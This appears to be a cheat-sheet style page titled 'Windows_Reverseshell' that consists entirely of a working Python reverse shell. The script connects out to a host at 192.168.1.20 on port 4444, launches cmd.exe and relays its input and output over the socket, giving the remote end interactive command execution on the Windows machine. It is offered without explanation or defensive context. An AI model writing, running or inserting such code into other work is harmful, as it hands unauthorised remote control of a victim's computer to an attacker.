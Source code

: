 ### Python : Windows_Reverseshell


import os,socket,subprocess,threading;
def s2p(s, p):
    while True:
        data = s.recv(1024)
        if len(data) > 0:
            p.stdin.write(data)

def p2s(s, p):
    while True:
        s.send(p.stdout.read(1))

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.1.20",4444))

p=subprocess.Popen(["\\windows\\system32\\cmd.exe"], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE)

s2p_thread = threading.Thread(target=s2p, args=[s, p])
s2p_thread.daemon = True
s2p_thread.start()

p2s_thread = threading.Thread(target=p2s, args=[s, p])
p2s_thread.daemon = True
p2s_thread.start()

try:
    p.wait()
except KeyboardInterrupt:
    s.close()

